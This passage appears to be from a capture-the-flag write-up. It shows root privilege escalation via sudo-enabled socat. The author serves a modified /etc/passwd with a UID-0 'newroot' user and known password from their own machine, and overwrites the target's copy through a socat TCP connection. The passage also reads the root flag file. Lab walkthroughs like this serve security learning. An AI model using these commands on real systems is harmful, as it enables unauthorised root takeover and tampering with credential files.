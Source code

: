 ##### **PRIVILEGE ESCALATION** - via SOCAT (aand another one) `elyana -> root`

- Socat can be used to transfer files as well. Since we can run it as sudo, we can replace whatever file we want.

- I copied the content of `/etc/passwd` from the target (since it's readable by anyone) and copied the text to a file on my box.

- At the end, I appended a new entry, making a new user called `newroot` with UID and GUID 0.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
{TRUNCATED}
newroot:$6$Q3xG8Q2NdD8igFjy$pJmQvtu9WDHIUPNw4rl2bhufhDWUWAjcNNZpnLeZKHs6NtgLRaX8F4hEF581HSSwVlD0P/hAKVaJi8rhPpdqH1:0:0:root:/root:/bin/bash
```

- The hash was generated using `openssl passwd -6 test`.

- Then, on my box, I've set up the following listener

```bash
# passwd = file containing the content of /etc/passwd + new user.
socat -u file:passwd tcp-listen:12345,reuseaddr 
```

- On the target, I've used the following socat command to replace `/etc/passwd`.

```
sudo /usr/bin/socat -u tcp-connect:IP:12345 open:/etc/passwd,creat
```

- Next, all I had to do was use `su newroot` with `test` as password.

```
root@elyana:/var/www/html/wordpress# id
uid=0(root) gid=0(root) groups=0(root)
```

##### **PRIVILEGE ESCALATION** - via SOCAT (round 4) `elyana -> root flag`

- You can read files you don't have access to as well :D

```
sudo /usr/bin/socat -u "file:/root/root.txt" -
```

##### **PRIVILEGE ESCALATION** - via SOCAT (round 5?) `elyana -> root (nope)

- Socat can be used to write to files we don't have access to (since we can run it as sudo), but the syntax below *OVERRIDES* the current content of the file.

- We could technically echo `newroot2:$6$Q3xG8Q2NdD8igFjy$pJmQvtu9WDHIUPNw4rl2bhufhDWUWAjcNNZpnLeZKHs6NtgLRaX8F4hEF581HSSwVlD0P/hAKVaJi8rhPpdqH1:0:0:root:/root:/bin/bash` in there, but it would the only entry in the box.
